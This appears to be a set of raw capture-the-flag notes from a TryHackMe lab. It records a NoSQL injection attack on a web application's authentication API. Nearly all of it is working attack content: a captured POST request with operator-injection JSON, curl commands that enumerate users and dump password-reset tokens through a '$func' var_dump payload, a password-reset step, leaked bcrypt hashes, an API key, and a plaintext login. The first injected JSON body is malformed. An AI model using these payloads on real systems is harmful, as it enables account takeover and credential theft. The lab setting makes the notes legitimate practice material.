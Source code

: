 export IP=10.10.196.217
22:ssh --> 
80:http

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc

POST /auth/check HTTP/1.1
Host: 10.10.196.217
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 160
Origin: http://10.10.196.217
Connection: close
Referer: http://10.10.196.217/auth/login?to=/home/auth
Cookie: 8071dec2be26139e39a170762581c00f=p2q1ni407noluivo17crveoms6

{"auth":{"$eq":"admin"},{	"password":[0]
},
"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"}

user:sd	
success	false
error	"User not found"


 curl -d "@data.json" -X POST http://10.10.196.217/auth/check -H "Content-Type: application/json"

 root@ip-10-10-34-132:~# curl -d "@data.json" -X POST http://10.10.196.217/auth/check -H "Content-Type: application/json"
string(5) "admin"
string(12) "darkStar7471"
string(5) "skidy"
string(8) "ekoparty"
{"success":false,"error":"User not found"}root@ip-10-10-34-132:

string(48) "rp-f88eacee12151a2510bfc8ea249aa40761090bfd2d8e3" admin

 {"user":"admin","name":"Admin","email":"admin@yourdomain.de","active":true,"group":"admin","password":"$2y$10$dChrF2KNbWuib\/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq","i18n":"en","_created":1621655201,"_modified":1621655201,"_id":"60a87ea165343539ee000300","_reset_token":"rp-f88eacee12151a2510bfc8ea249aa40761090bfd2d8e3","md5email":"a11eea8bf873a483db461bb169beccec"};

string(48) "rp-a7e41ab5fa056100da05b88d9646eabb61090ccdc5a03" skidy
{"user":"skidy","email":"skidy@tryhackme.fakemail","active":true,"group":"admin","i18n":"en","api_key":"account-21ca3cfc400e3e565cfcb0e3f6b96d","password":"$2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S","name":"Skidy","_modified":1621719311,"_created":1621719311,"_id":"60a9790f393037a2e400006a","_reset_token":"rp-a7e41ab5fa056100da05b88d9646eabb61090ccdc5a03","md5email":"5dfac21f8549f298b8ee60e4b90c0e66"}


curl -d '{"token":{ "$func":"var_dump"}}' -X POST http://10.10.196.217/auth/newpassword -H "Content-Type: application/json"

 curl -d "@newpass.json" -X POST http://10.10.196.217/auth/resetpassword -H "Content-Type: application/json"
 sudo version : 1.8.16
 Linux: 4.4.0

 localhost:27017:?
 stux:p4ssw0rdhack3d!123
 